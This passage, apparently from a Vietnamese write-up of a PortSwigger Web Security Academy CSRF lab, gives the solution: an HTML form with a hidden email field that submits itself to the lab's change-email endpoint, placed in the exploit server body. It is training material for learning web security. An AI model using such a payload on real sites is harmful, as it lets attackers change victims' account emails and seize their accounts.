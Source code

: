 ![CSRF_1](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/CSRF_1.png)  
  
Sử dụng **exploit server**, chèn trong phần **Body**:
```
<form method="POST" action="https://0afc00da04de96bbc05b0c5f00960024.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="ckiev5@test.com">
</form>
<script>
        document.forms[0].submit();
</script>
```  
![CSRF_2](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/CSRF_2.png) 
  